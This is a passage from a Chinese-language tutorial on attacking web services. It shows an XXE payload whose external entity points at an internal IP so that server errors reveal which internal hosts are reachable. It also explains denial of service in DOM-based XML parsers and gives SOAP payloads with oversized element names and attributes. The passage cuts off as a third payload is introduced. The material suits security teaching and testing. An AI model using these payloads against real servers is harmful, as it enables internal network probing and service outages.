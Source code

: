 因为无法访问此IP地址，服务器返回如下错误信息：

[![](https://p4.ssl.qhimg.com/t01c9e08af9e269bbb2.png)](https://p4.ssl.qhimg.com/t01c9e08af9e269bbb2.png)

然而，如果我们将载荷中的IP修改为“192.168.1.2”，服务器不会返回任何错误页面，表明服务器可以访问该IP地址。



```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;!DOCTYPE foo [
&lt;!ELEMENT foo ANY &gt;
&lt;!ENTITY xxe SYSTEM "http://192.168.1.2" &gt;]&gt;&lt;foo&gt;&amp;xxe;&lt;/foo&gt;
```

[![](https://p2.ssl.qhimg.com/t016c036798b9046f03.png)](https://p2.ssl.qhimg.com/t016c036798b9046f03.png)

**5.6 Web Service中的拒绝服务（DoS）漏洞**

客户端发送的XML数据会由服务端的XML解析器进行解析和处理。目前有两类XML解析器，分别为基于SAX（Simple API for XML）的XML解析器以及基于DOM（Document Object Model）的XML解析器。

基于SAX的解析器在工作时，内存中最多容纳2个元素。在这种情况下，基于SAX的解析器不会存在拒绝服务问题。

基于DOM的解析器会一次性读取客户端存储的所有XML数据。因此会导致内存中存在庞大的对象数据。这种情况下，我们难以避免拒绝服务器攻击。导致这种漏洞存在的原因在于我们没有检查XML中节点的大小和数量。

例如，攻击者可以使用如下载荷发起针对元素名称的攻击。



```
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
&lt;soapenv:Header/&gt;
&lt;soapenv:Body&gt;
&lt;TEST&gt;
&lt;BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA………BGABGABGABGABGABGABGABGABGABGA&gt;
&lt;/TEST&gt;
&lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;
```

攻击者可以使用如下载荷发起针对元素属性的攻击。



```
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
&lt;soapenv:Header/&gt;
&lt;soapenv:Body&gt;
&lt;TEST&gt;
&lt;BGA attribute=”BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA………BGABGABGABGABGABGABGABGABGABGA”&gt;&lt;/BGA&gt;
&lt;/TEST&gt;
&lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;
```

攻击者可以使用如下载荷发起针对元素个数的攻击（也可以通过重复某个特定元素达到同样效果）。
